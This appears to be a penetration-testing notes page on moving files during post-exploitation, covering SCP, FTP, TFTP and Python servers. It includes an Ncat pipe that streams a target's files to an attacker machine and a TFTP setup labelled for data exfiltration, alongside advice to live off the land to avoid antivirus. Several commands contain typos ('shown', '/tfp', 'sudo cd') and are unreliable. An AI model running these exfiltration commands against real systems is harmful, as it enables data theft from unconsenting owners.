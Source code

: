 # File Transfers
Some methods are destructive and should be used with caution. All Post Exploitation binaries and scripts use should be documented to aid in cleaning up after engagement. 

1. For stealth and professionalism they could be found revealing foothold and potential abused for malicious individuals. Documenting each upload helps keep a inventory of use where and how, networks can get very large and it not ideal to have to traverse the entire network to remove one file you forgot to document and missed in cleaning up.
2. Antivirus scans endpoint filesystems in search of pre-defined file signatures which are mapped from open/closed source tools in wide use from open resources like [Virus Total](https://www.virustotal.com/gui/home/upload). AV should alert System Adminstrators and will quarantine any offending binaries or scripts.

Therefore its best practice to live off the land as regards to Post Exploitation only until a tool is needed to bypass or escalate further. For Shell related information see [[Shells]] and [[Reverse-Shells-Listing]] for various reverse shells and place to find more. For [[Windows-File-Transfers]] or [[Linux-File-Transfers]] follow the link the remainer of this article will include hosting methods


## SCP
```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```


## PureFTPd
```bash
sudo apt install pure-ftpd
```

Setup script 
```bash
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

## Python

```bash
python3 -m http.server $port
python -m SimpleHTTPServer $port
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```


## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```



## References

[cheat](https://github.com/cheat/cheatsheets/blob/master/scp)
